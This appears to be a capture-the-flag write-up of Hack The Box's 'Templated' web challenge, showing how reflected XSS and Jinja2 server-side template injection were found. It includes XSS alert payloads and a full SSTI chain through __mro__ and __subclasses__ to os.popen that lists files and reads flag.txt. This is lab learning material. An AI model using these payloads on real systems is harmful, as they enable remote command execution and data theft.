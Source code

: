# HTB-Challenges

Templated WEB Challenge of the webside Hack The Box writeup Capture The Flag

![Screenshot_2021-07-06_02-09-06](https://user-images.githubusercontent.com/57195844/124516931-6de4a780-de00-11eb-912e-0f14e836f6df.png)

We start the web instance and when we access we will see the following interface:

![Screenshot_2021-07-06_02-11-38](https://user-images.githubusercontent.com/57195844/124516979-81900e00-de00-11eb-93fe-d3523a0f0e0a.png)


I tried inspecting the item or using the network tab in dev tool, but found nothing.

So I will try to introduce routes in the url to see if something happens.

![Screenshot_2021-07-06_02-19-52](https://user-images.githubusercontent.com/57195844/124517086-b13f1600-de00-11eb-899c-eac34d2833f0.png)

I got a 404 error but notice what we entered as path in URL is getting rendered in the website. Let's try out a few payloads for XSS.


XSS Vulnerability

http://46.101.89.127:31382/<script>alert("hi")</script>

![Screenshot_2021-07-06_02-20-58](https://user-images.githubusercontent.com/57195844/124517168-f5321b00-de00-11eb-81bf-316e1f08b742.png)

I got nothing.. but trying another payload

<img src=x onerror="alert('xss')">

![Screenshot_2021-07-06_02-22-42](https://user-images.githubusercontent.com/57195844/124517230-16930700-de01-11eb-991c-0ad7b2b37b77.png)
![Screenshot_2021-07-06_02-23-49](https://user-images.githubusercontent.com/57195844/124517388-79849e00-de01-11eb-9b51-f2149987d32f.png)


Server Side Template Injection (SSTI)

Well, with this we know the web is vulnerable to XSS payloads, but this did not lead us anywhere to obtain the flag.

So thinking that the challenge is called "Templated" and that Jinja2 is a web template engine for the Python.

Maybe it's an SSTI (Server Side Template Injection) vulnerability.

Payload 1: http://46.101.89.127:31382/{{46+46}}

Result: it give 92 as output.

![Screenshot_2021-07-06_02-24-01](https://user-images.githubusercontent.com/57195844/124517403-7f7a7f00-de01-11eb-92cd-33a37ca5210f.png)

At the moment we found 2 vulnerabilities, SSTI and XSS (Reflected)

In python __mro__ or mro() allows us to go back up the tree of inherited objects in the current Python environment.

Saying that we can use the MRO function to display classes using the following payload:

{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}

![Screenshot_2021-07-06_02-27-03](https://user-images.githubusercontent.com/57195844/124517511-bfd9fd00-de01-11eb-9470-12a400ba13cb.png)

This lists all the files and guess what we can see flag.txt. All we need to do now is to replace ls * with cat flag.txt.

So the payload will be:

{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}

Finally we have obtained the flag

I have not given the the images of that, Please try it your self so that you can learn something new.
